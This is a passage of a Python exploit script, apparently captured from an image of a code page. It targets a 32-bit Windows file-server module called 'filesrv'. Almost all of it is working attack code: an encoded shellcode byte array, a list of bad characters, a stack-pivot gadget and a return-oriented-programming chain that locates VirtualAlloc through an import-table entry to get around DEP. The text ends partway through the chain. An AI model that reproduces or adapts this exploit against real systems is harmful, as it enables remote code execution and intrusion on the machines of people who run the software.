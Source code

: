 ```python
shellcode += b"\x19\x2d\x6a\x04\xbf\x26\x87\x51\xb2\x65\xc0"
shellcode += b"\x96\xff\x95\x10\xb1\x88\xe6\x22\x1e\x23\x60"
shellcode += b"\x0f\xd7\xed\x77\x70\xc2\x4a\xe7\x8f\xed\xaa"
shellcode += b"\x2e\x54\xb9\xfa\x58\x7d\xc2\x90\x98\x82\x17"
shellcode += b"\x36\xc8\x2c\xc8\xf7\xb8\x8c\xb8\x9f\xd2\x02"
shellcode += b"\xe6\x80\xdd\xc8\x8f\x2b\x24\x9b\xa5\xa3\x26"
shellcode += b"\xd1\xd2\xb1\x26\xe0\x1b\x3f\xc0\x80\x4b\x69"
shellcode += b"\x5b\x3d\xf5\x30\x17\xdc\xfa\xee\x52\xde\x71"
shellcode += b"\x1d\xa3\x91\x71\x68\xb7\x46\x72\x27\xe5\xc1"
shellcode += b"\x8d\x9d\x81\x8e\x1c\x7a\x51\xd8\x3c\xd5\x06"
shellcode += b"\x8d\xf3\x2c\xc2\x23\xad\x86\xf0\xb9\x2b\xe0"
shellcode += b"\xb0\x65\x88\xef\x39\xeb\xb4\xcb\x29\x35\x34"
shellcode += b"\x50\x1d\xe9\x63\x0e\xcb\x4f\xda\xe0\xa5\x19"
shellcode += b"\xb1\xaa\x21\xdf\xf9\x6c\x37\xe0\xd7\x1a\xd7"
shellcode += b"\x51\x8e\x5a\xe8\x5e\x46\x6b\x91\x82\xf6\x94"
shellcode += b"\x48\x07\x06\xdf\xd0\x2e\x8f\x86\x81\x72\xd2"
shellcode += b"\x38\x7c\xb0\xeb\xba\x74\x49\x08\xa2\xfd\x4c"
shellcode += b"\x54\x64\xee\x3c\xc5\x01\x10\x92\xe6\x03"


#badchars
#0x09 0x0a 0x0d 0x0b 0x0c 0x020

log.info(f"Pivot Gadget : add esp, 0xd60 = {hex(filesrv+0x0001139d)}")


#### Ropping ######
### VirtualAlloc? ###
#modifying because of bad byte at 09
tlsfree_iat = filesrv+0x00090148


rop = b""
rop += p32(filesrv+0x0007c5f6) * 4 #ret slide
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(filesrv+0xA6030) # address in .data
rop += p32(filesrv+0x000683da) #push esp; add dword ptr [eax], eax; pop ecx; ret;
#stack ptr in ECX
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xffffffb0) # - 0x50
rop += p32(filesrv+0x0001bb91) # add ecx, edx; clc; pop ebp; ret;)
rop += p32(0x41424344) #junk for ebp
#Moving the virtual alloc  address to stack
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(tlsfree_iat)
rop += p32(filesrv+0x0002bb94) # mov eax, dword ptr [eax]; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xffffcf70) # 0x3090 # - 4BB0
rop += p32(filesrv+0x0003697f) # add eax, edx; ret;

#eax should point to VirtualAlloc now
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
#moving virtual alloc to the stack above

#increasing the stack pointer in ecx
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;

# Setting the ret address for VirtualAlloc
rop += p32(filesrv+0x0003e7d2) # mov eax, ecx; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
```